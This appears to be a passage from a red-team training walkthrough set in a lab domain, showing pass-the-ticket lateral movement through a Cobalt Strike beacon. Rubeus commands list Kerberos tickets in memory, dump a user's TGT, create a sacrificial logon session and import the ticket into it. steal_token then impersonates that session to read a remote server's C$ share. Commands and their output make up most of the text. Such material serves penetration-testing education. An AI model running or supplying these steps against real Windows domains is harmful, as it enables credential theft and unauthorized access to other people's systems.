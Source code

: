 Instead of using the NTLM hash or AES keys to request a TGT for the user, we can actually extract their TGTs directly from memory if they're logged onto a machine we control. Rubeus `triage` will list the Kerberos tickets in all the logon sessions currently on a system (if not elevated, it can only show tickets in your own logon session).
```shell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------------------------------------------ 
 | LUID    | UserName                     | Service                                       | EndTime               |
 ------------------------------------------------------------------------------------------------------------------ 
 | 0x462eb | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 5/12/2021 12:34:03 AM |
 | 0x25ff6 | bfarmer @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 5/12/2021 12:33:41 AM |
 ------------------------------------------------------------------------------------------------------------------
```

jking has a logon session with LUID **0x462eb** and the **krbtgt** service means that this is a TGT. To extract it from memory, use Rubeus **dump**. The `/service` and `/luid` flags can be used to limit the tickets to extract.
```shell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap

[*] Target service  : krbtgt
[*] Target LUID     : 0x462eb
[*] Current LUID    : 0x3e7

  UserName                 : jking
  Domain                   : DEV
  LogonId                  : 0x462eb
  UserSID                  : S-1-5-21-3263068140-2042698922-2891547269-1122
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 5/11/2021 2:34:03 PM
  LogonServer              : DC-2
  LogonServerDNSDomain     : DEV.CYBERBOTIC.IO
  UserPrincipalName        : jking@dev.cyberbotic.io

    ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm          :  DEV.CYBERBOTIC.IO
    UserName              :  jking
    UserRealm             :  DEV.CYBERBOTIC.IO
    StartTime             :  5/11/2021 2:34:03 PM
    EndTime               :  5/12/2021 12:34:03 AM
    RenewTill             :  5/18/2021 2:34:03 PM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  oh0gqFF8D81ijGlce+jyc0yMtHYaDrl8AM0b4+BqO8E=
    Base64EncodedTicket   :

      [...ticket...]
```

Create a sacrificial logon session with `createnetonly` and take note of both the new **LUID** and **ProcessID**.
```shell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4872
[+] LUID            : 0x92a8c
```

Now use `ptt` to pass the extracted TGT into the sacrificial logon session using the `/luid` flag.
```shell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]

[*] Action: Import Ticket
[*] Target LUID: 0x92a8c
[+] Ticket successfully imported!
```

Steal the access token of that process and access the target resource.
```shell
beacon> steal_token 4872
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:49:35   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/10/2021 09:52:08   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/06/2021 09:50:19   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     05/11/2021 13:17:32   pagefile.sys
```

You can also extract and reuse service tickets (TGS's) using this technique.
